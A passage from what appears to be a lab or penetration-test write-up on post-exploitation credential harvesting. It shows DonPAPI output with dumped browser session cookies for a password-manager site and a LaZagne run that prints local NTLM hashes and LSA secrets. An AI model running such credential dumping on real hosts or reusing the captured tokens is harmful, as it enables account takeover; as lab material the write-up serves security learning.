[172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] pwm.ifrit.vl/ - .PleasantIdentity.ApplicationCookie:0b-_fNB_--CsS2vSa1Y-836trXbyd_rrRE9H3l4BmGYRh1Kd2vDRswj5DqT3eHpeh61IclA4FfI7B2E79l0qXRlRuFxMQP6nsl6XMJZrBISmfm_BI7xGZN-_AZgPGJATCS2szfSLwIhafwUw7i7WZleAEeSUb8p6rpdGq5gnhusyDl_9gH-QWgXSZEbSKvzY926hv-VCu04yGSi7eOy7Q2rpX0oFY1iHmiRYlcrAAsfQA_ahuPMO1lWU0VGS1ZObK-610UsFjQhA7JJ-1oiI--or5ECfZzBuKJZvPN_g2pIpzdjzBLzBah7FUpIce4-EwGj8QVGKT9uP7LpjvmuVF8LrJ1mQ5oRGQOuJ8IV63QLXBNPwRrGikGavPFH8YqjqsPx2aH2XMVn-AS9ht0rizVBCab2qsz3YCyPU9OqwzkdXphyYPO0sCoH3h0nB1JAdBdtqAPNw6NJXdqVDYF9WTOSj-sh-_K-7y_CAXv2r4dNmMRcktMbxYUCNyB0GtP4tzDZCI97_chBZb4CRy7WdD9QMoqVFLigfGW_NAZ3vZl9BcPDuQDaSLH2njzgejslSjACWa1DmsuUcD6LiexPcCfVyK2T_wy5F_1Shy6tPbvPgNjYQpy4Uv7hlCLkuuLXkeWdvMOsZqIZb0bp5oyB6wPWJmX-13PgrHBvsvOFcEIhSIYWNK1823uXenHeT8caUudNSvtmSj1lec0tem2dru24BO8wx6hP3ZtZnkMb8zXkItNTkiTxOLFW6uR-osNxquvtWXrxyOsgr1Fnfuwf18GBDMTSdRl-fNtnj6XlQPK0MmRFz3iLOg6TyM_TGhPCK0XV6CghmmDXQ0ytJUnvPnVSKtfz1Sim-hQZWbi_KDSvBecV2dSw-ewxEm2YBGvQFqLLwUC49GHEnB1epgH9Io2ia5oJJoTqHE00zNp7a5tHNvVy_QegKooCl6RxaHENg4MNUV7a1U6r27PyT_cJ88FuTneb0_IyaNvQcOXgcneJTjK6pGi8bnaeznXnadi95SxVbYtfIQy8YGX-O-9iBqbBmeanuh8sMFPZjDeNc15qtFdvtwjyph9PsSxTJK1RRaVgeO4z7wZr-3NDu3z6TcqoYLQnr62thSeQ5Izudc90ElW4jGF0Cf4J9BV4IdWUB7EvEWhrg_rLbtARtOotX5LMb7Et-82q1Vcjuqd0kQwU4abEWuAZpmThonj0x7PVVahUsIZgi-ahGUhqSeJjpOTbEGko7seb2W6rzZaunvneUXW6UwyHLfuQihYb1uv1sT_3QJNa_xOtl-oqFjPH46LUuBgmJP80uVVSDAZgN6JR0OkKIpYe1HfSVv-EmNdAlac-BpJHdiN5hFqf2DtzxAT0nAZeOkem4_kmvrTRGUQAVqyMAOFP73jgU8xdVDT6rg1qOLJuWqxitlUvVOAf4uNYDgAC8JsLd4FYYxK-yW3W3aDa9D0JQgUkfSG-6hzsyeTIU4YIsr3xtYbjwTbIBGi3euwy02LthO_VWF1WyzpTEHfO3iDXANpIwcUQrf7A1sdeCje7lO_uRAECWBQoxerR6JWLu0OsdibRHbJmlkzXBAjkoRJcbspQ9w_CYTBi08gMMYpa0NL9lCdleE_ikp9tIq4L-Wxc6jEUIwAdeH2zcyrsSTr9fIjG06iQb1O30XUWG_Vil-kupzR6632Uu2qZ0i7Hh0A51dZ7MfKDV9QTq0K4Oy16VbZZgvtNuPEdYLycYRvDoqgxWa8DPdLC1Z2MyrdPN57LFIYiu7lfUURcQL4I1rz5HYv5_ZhD5uS_AEKn2Nhbkp82ubJRulgvwD8klDX3nD3nESgkDhDwunpoxBGFhN4cOtTg-ukhGhBIujSuXyQ2D6VG3GaMfmRiZrhJaQMGr4u52NP_e7Vu1IBH7m5MFM34pqvbMNpqP-N6hUv_ghmpe5Px5sWwnY45GwXwUTAuDi60P35tPJAdRg-p5a64mOGjqFKQx9jIPFNS_XZOKZ1E3RY5f8XkpKSB1wiAWGEqi3ublhQiJeDR6N3-6cdJVQF_76B8TCaUNzkcySPQBk57adMoA7eT0G0C-9nzP85ukghSw_o-4-0e9_UWAkbCZuDCKwX0T_Vwuniv_7gk00DRUtORCJRr070ubtNP_uiv-tbq1FNDte5D6WUs0dKTTT3qHNvR6iZ9gp0FcnpLGguS_9EejkaUWZgQZLxiYtFwOG_fWxKMrcVLVrifo2sM_Pj7kYQywrWIJs_mQWqWnpk2q536jNEGPhMImaQNzXUq3YD-94Z5PgqKik3twYgCFUDUrQOF7UYqZKRMtO02iUEbU36hfT0xu3LVj3rMFS-n1C9wAJdeR9EboebilOZz-3TyVT5jz3jE682U94Q0aN9Mk-FAiIqWIoNhkZayIRdwR8JTl3Owk0Xx9E-RUgyAmGbcvZRTiaHvV25tUTYAYoCJfMHmD-qWs8zUUoIJ8tMdQVVocazeciwIMqN-OvXrlQvkriDtlbCyqhNHTrgRSTlG-Rh0Sq2EtXz7eGFUkQtoTCjEGLVb5CugRzDB_4iiEmY54jB15fadNHO7R2XT3keF3zfiTh5w3yQa9RvIXWQOu9xuZvV7EEdu_INMeGokmU0flTctp-q2o5KopecqZDXd7ykOH4ERange51SqrshcJFneFuHhqyPLgtwsbzJSUIlkEdbfvPRDO1DI3fF3xxeMFll0CKGY8dJ08Crfedkk3WXb58dQae1LMn071K6ixXhmv-adnVM4ww1Q0_ugqpsmYCKmgMGAj4DBcCgQNe-1YU8DeSz66WmrFf-2aCeMkekmEdRbeYbMVcRpJkACEpWSx_zYPwWitm5LiudFmiJghoImrbhhKkOjbvyouN63parYZlm7zDbUIBLsqZ6V4Mv1J6Y7ZSAIpP5BWF29XA-B76Qo65pX-skZv8LL4qut5FgUZBXs9QPdKtDKhZ1PbtH29pPYybnOiATilOZjpxJre0CFeJ_TTGRQP9o4ZrZkdn_tXwfSBLD198Nlv3Y1UfQJG7K3OQKVSv0FtGb7B5xO3lGE35QipqHzgbmNILAwcXpyCYP9_1ZtOun4gnmM7FxzZsnUha0jH58lS6ZjJv_Dd_UH-MQHOUQ1R0PP4tx-4drSGrGvVao6HHN6pk2uw7BqAa6Q0aKWsMLnv6JEOyEgYW5C8HCmXrcNTihVHqNrxTaq1zQnQ5VbK1SNtZo1qhG-CqyMmbPm3lvX6IPIfr6kdA6OckKqewhCV5Gnyt1_rrA2lGQf9q8hfykB0OFTcpiXLuo8VJk-GPNJG2v4BsN_8eDYpNbjyiWfnVmlfETdqLVDRnRFMu_WOQI8a9qDg1_0v4H1y_TgPg62oG-PaLIjhjPrNxoTZfhdYBb-IXNA9ZPUdiaPPM2yYrEo6WaWw-SuUlvqgXmuC-bn23EuFgKHitWI6RJbWGPfRjzTr0UVYxVX0SLDRlmsaFGJ0r3bhwfLWYW7ulEZlj4bh4uknXzZdfto3K3bZ_XCHsDLXV8EhArDIWdhl9AWwoP15LCn00pPEzNIkNYo65rh_E8DGEDNRfDRDKSA379o9bs57eOuFJWTL3CkYIJp8gmZv7PdmowfOyqHylKTvPXb1R5NjzPmaJEbG6WtbkF3QeD5QXeCFYTYU4mS57NGaE_c7WcE_SruYMzYLjagPVZr8-j7_99bUkN-WZYsPXfyx7YaLu6diSXhjpb1Z4T66CpIW
[172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] pwm.ifrit.vl/WebClient - totp-status:open
[172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] pwm.ifrit.vl/WebClient - new-totp-status:open
[172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] pwm.ifrit.vl/WebClient - tagIsExpanded:null
[172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] pwm.ifrit.vl/ - ppsVersion2-lastVersion:8.2.1.0
[172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] pwm.ifrit.vl/ - ppsVersion2-createdDate:2024-02-07T18:36:48.807724+00:00
[172.16.41.225] [$] [Firefox] [patrick.ford] [Cookie] .pleasantpasswords.com/ - DomainWideId:55dfed7b-3826-4f1a-b062-9690120716b3
[172.16.41.225] [$] [Firefox] [patrick.ford] [Cookie] pleasantpasswords.com/ - gCo:Unk
[172.16.41.225] [$] [Firefox] [patrick.ford] [Cookie] .pleasantpasswords.com/ - VisitCount:1
[172.16.41.225] [$] [Firefox] [patrick.ford] [Cookie] .pleasantpasswords.com/ - OriginalReferrer:https://pwm.ifrit.vl:10001/
[172.16.41.225] [$] [Firefox] [patrick.ford] [Cookie] .pleasantpasswords.com/ - OriginalUrl:https://pleasantpasswords.com/product-news?FeedID=dbd24e14-b93c-4373-bf76-45e176af66f0585&Version=9.0.6.0.Community Edition,5&Hash=5Sl762OQPm2MgcCRYiWLU/mYEUU=&ref=0f08eb9c-7fa4-46cd-8b1d-55d880502d52
[172.16.41.225] [$] [Firefox] [patrick.ford] [Cookie] .pleasantpasswords.com/ - OriginalTimestamp:638565585173968314
[172.16.41.225] [$] [Firefox] [patrick.ford] [Cookie] .pleasantpasswords.com/ - SubdomainSharedSession:true
[172.16.41.225] [$] [Firefox] [patrick.ford] [Cookie] .pleasantpasswords.com/ - __utma:159369083.361432803.1720961720.1720961720.1720961720.1
[172.16.41.225] [$] [Firefox] [patrick.ford] [Cookie] .pleasantpasswords.com/ - __utmz:159369083.1720961720.1.1.utmcsr=pwm.ifrit.vl:10001|utmccn=(referral)|utmcmd=referral|utmcct=/
[172.16.41.225] [$] [Firefox] [patrick.ford] [Cookie] .pleasantpasswords.com/ - __utmt:1
[172.16.41.225] [$] [Firefox] [patrick.ford] [Cookie] .pleasantpasswords.com/ - __utmb:159369083.1.10.1720961720
[172.16.41.225] [$] [Firefox] [patrick.ford] [Cookie] pwm.ifrit.vl/ - .PleasantIdentity.ApplicationCookie:H4Ex0QXIknfLqhTWQeJYaeCc4LXmpg-mxhSQysy9oZ-tJsfcgE1nyaEyQOs--tOmF0Na9KgM2ub3oPtKqy5jplV7aoDo4sfD2q01m9xbDN0mmqp5YeMq2ZrjI_oaYbP9wVF2bMuA0CtKQfCb18JaP7Z2bx5Cet62DkSd6KXmFl-ZdxJlpadQ5FZaMtO3oPRDxgfUnI8BcEUzu8wbzR3pd9BVBXJFNg4rPF9bFQRc_X-hIdhgA-4_p0c3Jp9opEtF1W-PyS8uhIE1odIaUqWY_okMUJ6J5icRRcT6Hz4HsGMz-fuS9vJFUmeCffeYFIeVQ-lZaVMWVd1-GKV6cN11Vs0rl56m6zwmHziS1GqXshUd4iau3-H4QVmD2xX1UpkGqM1V3OtJQDNc2DeSG5_X2IyeVP9Yr8R5wptD5-TTSUCInYiLWOL1npiNMCfyjquvFDqppuPlpMIOWbJM1ooabU9yas823DS0YmAo-cqNb-TQZMO_d7eevlFA1DCGqjPR8hEOiUeYkBydB17fSJkGXw5FoyxUe8bf6z-wRKkpJB8cHWjqyn6SaEqACgkhrBh65ArA7jgdUs7qmVU7T4cDwoMWBUTyVIuWDy0eMIM20WpG54bRacWsAtTIRakfLGZIKCCHLrI9Hs8-xyR8i5OX74ZvaJlTcVAuh3O4jlar540qmolYXiJ0yTzR0cUqrwfOgX3W6Z29f-4jval1pX2Kmd0wG1ibimUei1O1ICPs4shI6XmAZRaRPQ558_0tvvXsDrrSurwS52sSrgUF5tCz-NLtNRCV2g1gBcEXJiGsuXAuvQrXatst09DPkRFNpg86tYLOEXPGJgIGBLzsDzwHvH_5sCTPpjx0he6AUEnij_XwZAc0ytStn7ER7QudUgR7LterfpEg2y0zD3Pfzsc_XfsmPtbZx9Tdsr4SxCElY7lt0sl645WPuvqGVTh67KtFvZnjm4n2G8tEpEYPGLkKohTyRctWk4sDJxz3157iVZYMMyHiczV-UBwL3CANBjZSc-DIXgWMF69Z5a4I4ZdG2Yomy7Vkn16hFgSV4UsDnFptM8Fo4rtodBoedyetJ1uOLsd4SWgSPQaAolpjwiYI3AiQ0kFck7EOhQjzY7JoMWyA_uU5fb2qbEuLKOkrwHqtl_WYCMZz_nfle55-v0QZqhvW13OQ0tuLYFDgJlfH5tY_5FhjMWcNs-_-p5urGMvT1MW5V5_NvVtIZFXLdPM7kiDphv1FhqMqNg7vvqCIRWJ6gLY0x_e9J57Y6u9KmqBBxFHvLzbM3JB5wyxs3GgmoMa98aZe8LpgQv8R72C1gdHEP1S0qoyv3I24v3gFK6XqVPZqlv-wEMWVcchKU_w8BoKVDXe9r4GI2bmjcopkpHAFPeEzZNeWNRwu-Faa0IVRl33flwrJ4kGv5AXaTuj_X-GZNc9YEr5NlrCR2MtUF5WjrrPiKszewApjvQ6c9RtD9OUIhDXJcSzcj4hYgVN4YaU7rdfU8Lg1axuc8f85Y7zJ1IyyAICXsBcckcgCGKLwy3DCS1QSAcGaQxB0u3t1BX3uOZlJAPwnGVmUyi8oys3Y3NO6LMDXFz5uFz_YH2rkD56wj8uU_I4Di5rxYYYSaOuOR6FuR0fUYA-5Dq5SRK3lObf5o0u7OpqWPCE2eCjRUPdlQ4j9bqisBRiDJC6O5l7YbND6xI1jx5dmQ3JmUloIWHcMmkNyREjrvoITHIEmzqRqA1uAKXvB37yrZRq5YYW3uEH5KeIo7G76Yvl34oYuFiHQTCbUyVKIMOTfnU7ntBbXQWsGba-8sz1S4uhwE9LwYRGmQXtHeq3teriOACAO4ZzicbyouDzMGRyA8gJmZY09sQSYHVzSgBTOe7nlZXgAMKFoaP6mp5vIsaoMLcCuYdqqKhAvoDgUKRV_plOYndVTNiD6aHzbsxnpm8L8X7v8daADbJQ5n4MpOAbOIzZrAdKV5bR1tNLT8NzRXsgGwO9Zu5gIwI9wFTZ6mgP0Q_wcERjFGXaou7oP_-ZTZQHIS5t9BXh52AImmyf-avH63dnbWk_gaypzJIKntiuWZsPyLnfLTfKUVdQnwDwxVDrbmc-1KA0_YhOg0PbQBIY4evEz4Ecu80ItzimUMDhgeszBPsOEtVip5w3AMG6TUUNcXKF34xW0vfRKlcPiKVGmoSI1mZcctbX1vAfJ9oGTvbOMVlleXAXIDEga5PDjzkquFbVFsIqLZOsWSWBi2i8OzPSPO9G_yTHHAYGoDn4x-sgZIHjckDy1R9dFfJ18C6wnVITrNytg1HjJJp4YMiS09l2QL9rgl804Vr47_5NIK13uxEgPEW9nk2vSGneu_bQ4KHklVu3HP4KikLeb3cyHbvKMgiZEfevQ1nLviuddDe__drizSVd2-HcggQTegv38WL8L76orydtYCrJTnQz_2SVtsn4cBbn2Abnv-jz1LCGI2sArdSOOKzIDkKwBsBslcAdKkpXjsyPxAaST5BomBwJU_apL5FEoI-mv9yMU6QxpzvmBe_edFwEiZlx_Ol20_KmJcXoqNB23KEkOaIvEzoPaNUAfd1vllPwRBEOdDnne-dep8_bSxL-dl_WeZDV2JM0LkRnhLfcbKpuUY81-zQa0-QRkELEfrTOI8TNZwdTqeM_1npWsUvDruyx2YVI-LTMfZZLqLoL_tm6g6kBXwzCH4eRniItAn9XILhcG-Fk9lkFzE_OY3mUxY-bSG1v2WvjNS8-jxn4-Kg2V0OXV8DafeRKyFjBmR5hGRpzeBlxkxLLG-NDU8LHO-66BKG6Qb84yGd_H7V0FvRoAzVmIaxPGKcC87UrUnDbxH9A3CSSKVBL2XvW3aXdQkcvLBjIkLWCH15AWkohVyK8P2_8zZ_eYK2LtGfVLTQucyZuUg2Ia_ocVozA1gF_BoPI-l9BY22D13O2JO3IxP9nSOMzrxkVnCGQcZYN4HfXbS0ABJniyMtzJGK98biL2A4YIV-qbn9IPwRuVYrGaIfeUs2wEvOQfMABF1tMQK37_PGvqiVKYXuPAbX-iJC4Vb4fHVqQo3fvt98zOxuZLELADuVcxOjGBNS4H5-iT6torzJ_tFpfNHsrZZgpHfDVpCkqkDMzD0Yk8YXY2kNE5DVSp_v6BZBnEfkuv6bTRlQWKSwp0S16BJx9QJc-wAedgQTEYtJZum8L7Y8UD50Zt1tAkpKURuPlVS0-rbalemY7nOSRoesNdxOrhEAkjyLg2s50R_vvqNP2p2XkTCsTzk0LQ31evYD7T2VGgWoI5bMOu_sW_q1AuZcep1pbqekIcuauz9-Yv6MUDdu77qZEHTcV8KWwRQ5FA21JZcMADOvRB4SQaZFYEJdjN-FOI6sJ4MFmn_MJIAP-6mhJt5ZHxNOhfH_W3LoIiz7BdoqFlXuWm3uS9kO1bpfspKRIKAlswMMoxeMsmtD5OIkkiZtuHsEdGWLyCGdjmfaGWrM8SPUOjKzod53IdegEkxbGNdsbam7PKqxaYDJnREq0i9IIDjrjL76UzzjhqzJa8NzllU16tFG6EV0v8r65L3t15wn2zcgPG4PZCpY9HQHiqDxcge3HQwBHWtii_UT73CbJDFRIX29z3HmECiXB97NWOqxl2E8slfDE-9HJaKSc0Gf9T8v8bkNukhRM3QEmYTrSDmMPnOyQyzlWG9T46EbAuNCRNdARzWEK2RXWtuSgJ2QS67rjG6mFG
[172.16.41.225] [$] [Firefox] [patrick.ford] [Cookie] pwm.ifrit.vl/ - ppsVersion2-lastVersion:8.2.1.0
[172.16.41.225] [$] [Firefox] [patrick.ford] [Cookie] pwm.ifrit.vl/ - ppsVersion2-createdDate:2024-02-07T18:36:48.807724+00:00
[172.16.41.225] [+] Dumping MobaXterm credentials
[172.16.41.225] [+] Dumping MRemoteNg Passwords
[172.16.41.225] [+] Dumping User's RDCManager
[172.16.41.225] [+] Dumping SCCM Credentials
[172.16.41.225] [+] Dumping User and Machine Vaults
[172.16.41.225] [+] Dumping VNC Credentials
[172.16.41.225] [+] Dumping Wifi profiles
DonPAPI running against 1 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
                                                                                                   
```

Not even fucking Lazagne did the job:

```bash
S C:\Temp> .\LaZagne.exe all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

[+] System masterkey decrypted for 42d68d8c-ef9a-497c-a7b2-14091d0754a3
[+] System masterkey decrypted for 6fcb6331-36e7-4c1b-84a4-f02fb66cc5e2
[+] System masterkey decrypted for 9dc29f0e-d922-41fc-97dc-146447b13ab9

########## User: SYSTEM ##########

------------------- Hashdump passwords -----------------

Administrator:500:aad3b435b51404eeaad3b435b51404ee:c76b0b0f314e47df64bb32f9d88849fe:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:d4dcd8706c6043e3dd1bc0014c382881:::

------------------- Lsa_secrets passwords -----------------

$MACHINE.ACC
0000   F0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   C4 1D D6 0A 6B 73 59 5D 06 B4 C6 0A D8 47 72 AB    ....ksY].....Gr.
0020   D0 37 B8 F6 3A 60 2E 3E 92 A5 38 C2 69 BA 18 88    .7..:`.>..8.i...
0030   1D E0 4A 16 CE 78 98 1A C3 C3 7E FE 5B 57 9E EA    ..J..x....~.[W..
0040   E4 E8 0D B1 1F 5B A8 46 40 27 3A DE 63 8B 67 FB    .....[.F@':.c.g.
0050   F2 85 2A 16 A9 D3 5D 5D BB 87 5A F5 0C 25 7F F5    ..*...]]..Z..%..
0060   55 C0 9A 72 A7 9F 36 17 9B 8E 43 CF 2E BC 0F 86    U..r..6...C.....
0070   88 82 64 D9 3B 24 56 CF E3 5C 61 92 05 B2 8B 97    ..d.;$V...a.....
0080   F2 63 77 04 BF 76 8D 70 7F 7F 23 D1 D5 76 EB F9    .cw..v.p..#..v..
0090   C3 24 37 8A 90 DC 2D C8 82 50 AE 38 75 5D A3 3C    .$7...-..P.8u].<
00A0   56 46 1B 99 5B 35 64 7B F1 49 8B F4 7F 8A 3D 78    VF..[5d{.I....=x
00B0   74 1C EB 00 B9 66 08 3B 75 BE 9C CC 15 A1 CF D1    t....f.;u.......
00C0   9F F5 2C 4A CC AE E2 0A 13 69 6F E4 68 A7 A3 02    ..,J.....io.h...
00D0   AF 12 93 C7 4F 6C DE 61 3E 78 1A 01 92 A1 EA E0    ....Ol.a>x......
00E0   78 98 E6 F5 F3 A4 95 06 64 60 8C 4F 0C 9F 69 58    x.......d`.O..iX
00F0   A9 55 22 A8 5A E6 9F 33 A4 5F F2 58 6D 5D 1A 20    .U".Z..3._.Xm].
0100   CE 0C 94 DE 67 BD EE 93 37 49 07 9E 8B E6 71 97    ....g...7I....q.

DefaultPassword
0000   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   0B 08 64 F9 3C 15 68 A7 0F CF 17 C3 AC 8A 08 1B    ..d.<.h.........

DPAPI_SYSTEM
0000   01 00 00 00 EC 5E 2F 00 04 78 A8 D7 CB CC 4E DB    .....^/..x....N.
0010   9B E8 29 85 3E D8 3A BB A9 61 A6 5B 2F 90 AA 16    ..).>.:..a.[/...
0020   D7 3C 2A D2 CB 73 E3 D8 C4 75 03 BD                .<*..s...u..

NL$KM
0000   40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    @...............
0010   84 49 47 84 2F 36 62 65 7B 55 81 AA 36 C6 99 85    .IG./6be{U..6...
0020   35 82 FA 95 F1 BC B8 AE C0 4D 49 2C 8A 1A FF 07    5........MI,....
0030   3D 9D 1C 90 6A 0E 3F 5C 05 6E BC A9 50 B0 D6 23    =...j.?..n..P..#
0040   97 6A 94 32 F7 61 30 74 04 05 8E 87 EF D3 A1 43    .j.2.a0t.......C
0050   BB F3 14 29 A4 CF 6C C3 A2 22 E0 31 3D E2 80 D2    ...)..l..".1=...


[+] 0 passwords have been found.
For more information launch it again with the -v option

elapsed time = 15.225423097610474
PS C:\Temp>
```

All my other tests failed which means only DonPapi is worth investing time in it!